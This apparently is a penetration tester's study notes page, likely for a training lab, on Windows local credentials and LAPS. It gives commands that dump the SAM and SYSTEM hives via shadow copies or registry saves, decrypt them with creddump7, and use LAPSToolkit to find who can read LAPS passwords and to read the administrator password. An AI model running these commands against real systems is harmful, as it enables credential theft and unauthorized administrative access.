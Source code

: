 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Windows_Creds_And_LAPS
---
```



<span style="font-size: 35px; color:red"><b>Windows Credentials and LAPS</b></span>
&nbsp;

Security Account Manager (SAM, <span style="color:red">C:\Windows\System32\config\SAM</span>) Database: DB that stores Local Windows Credentials as NTLM hashes (MD4 algorithm).
Every Windows account has a unique SID (Security Identifier): <span style="color:red">S-R-I-S</span> 
In this structure, the SID begins with a literal "S" to identify the string as a SID, followed by a <span style="color:red">revision level</span> (usually set to "1"), an <span style="color:red">identifier-authority</span> value (often "5") and one or more <span style="color:red">subauthority</span> values. The subauthority will always end with a <span style="color:red">Relative Identifier</span> (RID) representing a specific object on the machine.

To get SID of local administrator account, first ask for computername:
```powershell
$env:computername
```
And then check the SID passing the computername as parameter:
```powershell
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>Dump SAM Credentials</b></span>

Create shadow volume 
```shell
wmic shadowcopy call create Volume='C:\'
```
To double check (should output something like <span style="color:red">Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1</span>):
```shell
vssadmin list shadows
```
And copy the SAM db from it:
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
```
OR
save SAM and SYSTEM from registry:
```shell
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```
We then need to decrypt the DB:
```shell
sudo apt install python-crypto
sudo git clone https://github.com/Neohapsis/creddump7
```
and use it:
```
python pwdump.py /home/kali/system /home/kali/sam
```
&nbsp;

---
&nbsp;
<span style="font-size: 25px; color:white"><b>LAPS</b></span>
<span style="color:red">Local Administrator Password Solution</span>
Secure and scalable way of remotely managing the local administrator password for domain-joined computers.

Get all computers that are set up with LAPS (might not show plaintext password):
```powershell
Import-Module .\LAPSToolkit.ps1
Get-LAPSComputers
```

Get groups and then memebers that can fully enumerate the LAPS data (if showing "readers"):
```powershell
Find-LAPSDelegatedGroups
Get-NetGroupMember -GroupName "<Name_of_the_readers_group>"
```
If the user is in LAPS group, you can read the administrator password with:
```powershell
Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```



